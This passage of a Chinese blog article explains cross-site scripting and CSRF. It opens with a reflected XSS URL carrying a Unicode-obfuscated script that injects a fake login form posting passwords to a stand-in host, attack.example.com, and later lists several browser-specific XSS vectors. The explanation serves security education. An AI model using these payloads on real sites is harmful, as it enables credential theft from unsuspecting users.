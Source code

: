 

trustedSite.example.com/welcome.php?username=<script+type=”text/javascript”>
document.write(‘\u003C\u0064\u0069\u0076\u0020\u0069\u0064\u003D\u0022\u0073
\u0074\u0065\u0061\u006C\u0050\u0061\u0073\u0073\u0077\u006F\u0072\u0064
\u0022\u003E\u0050\u006C\u0065\u0061\u0073\u0065\u0020\u004C\u006F\u0067
\u0069\u006E\u003A\u003C\u0066\u006F\u0072\u006D\u0020\u006E\u0061\u006D
\u0065\u003D\u0022\u0069\u006E\u0070\u0075\u0074\u0022\u0020\u0061\u0063
\u0074\u0069\u006F\u006E\u003D\u0022\u0068\u0074\u0074\u0070\u003A\u002F
\u002F\u0061\u0074\u0074\u0061\u0063\u006B\u002E\u0065\u0078\u0061\u006D
\u0070\u006C\u0065\u002E\u0063\u006F\u006D\u002F\u0073\u0074\u0065\u0061
\u006C\u0050\u0061\u0073\u0073\u0077\u006F\u0072\u0064\u002E\u0070\u0068
\u0070\u0022\u0020\u006D\u0065\u0074\u0068\u006F\u0064\u003D\u0022\u0070
\u006F\u0073\u0074\u0022\u003E\u0055\u0073\u0065\u0072\u006E\u0061\u006D
\u0065\u003A\u0020\u003C\u0069\u006E\u0070\u0075\u0074\u0020\u0074\u0079
\u0070\u0065\u003D\u0022\u0074\u0065\u0078\u0074\u0022\u0020\u006E\u0061
\u006D\u0065\u003D\u0022\u0075\u0073\u0065\u0072\u006E\u0061\u006D\u0065
\u0022\u0020\u002F\u003E\u003C\u0062\u0072\u002F\u003E\u0050\u0061\u0073
\u0073\u0077\u006F\u0072\u0064\u003A\u0020\u003C\u0069\u006E\u0070\u0075
\u0074\u0020\u0074\u0079\u0070\u0065\u003D\u0022\u0070\u0061\u0073\u0073
\u0077\u006F\u0072\u0064\u0022\u0020\u006E\u0061\u006D\u0065\u003D\u0022
\u0070\u0061\u0073\u0073\u0077\u006F\u0072\u0064\u0022\u0020\u002F\u003E
\u003C\u0069\u006E\u0070\u0075\u0074\u0020\u0074\u0079\u0070\u0065\u003D
\u0022\u0073\u0075\u0062\u006D\u0069\u0074\u0022\u0020\u0076\u0061\u006C
\u0075\u0065\u003D\u0022\u004C\u006F\u0067\u0069\u006E\u0022\u0020\u002F
\u003E\u003C\u002F\u0066\u006F\u0072\u006D\u003E\u003C\u002F\u0064\u0069\u0076\u003E\u000D’);</script>

**XSS的攻击主要是通过一段JS程序得用用户已登录的cookie去模拟用户的操作（甚至偷用户的cookie）**。这个方式可以让用户在自己不知情的情况下操作了自己不期望的操作。如果是网站的管理员中招，还有可能导致后台管理权限被盗。关于其中的一些细节可以参看《[新浪微博的XSS攻击](/2011/%E6%96%B0%E6%B5%AA%E5%BE%AE%E5%8D%9A%E7%9A%84XSS%E6%94%BB%E5%87%BB.md "新浪微博的XSS攻击")》一文。XSS攻击是程序员有一糊涂就很容易犯的错误，你还可以看看网上的《[腾讯微博的XSS攻击](http://www.cnblogs.com/kingthy/archive/2011/08/20/2147355.html)》。


XSS攻击在论坛的用户签档里面（使用img标签）也发生过很多次，包括像一些使用bcode的网站，很有可能会被注入一些可以被浏览器用来执行的代码。包括CSS都有可能被注入javascript代码。


不要以为XSS攻击是我们的程序没有写好，有时候，我们会引用别人站点上的js文件，比如：放一个天气预报的小Widget的js，或是一个流量监控，或是一段广告的js文件。你不知道这些东西是不是有问题，如果有恶意的话，这就是你自己主动注入攻击代码了。


**另外，XSS攻击有一部分是和浏览器有关的。**比如，如下的一些例子，你可能从来都没有想过吧？（**更多的例子可以参看酷壳很早以前的这篇文章《[浏览器HTML安全列表](/2010/HTML%20%E5%AE%89%E5%85%A8%E5%88%97%E8%A1%A8.md)》**）



```
<table background=”javascript:alert(1)”>

<meta charset=”mac-farsi”>¼script¾alert(1)¼/script¾

<img src=”javascript:alert(1)”>
```

XSS攻击通常会引发CSRF攻击。CSRF攻击主要是通过在A站上设置B站点上的链接，通过使用用户在B站点上的登录且还没有过期的cookie，从而使得用户的B站点被攻击。（这得益于现在的多Tab页的浏览器，大家都会同时打开并登录很多的网站，而这些不同网站的页面间的cookie又是共享的）

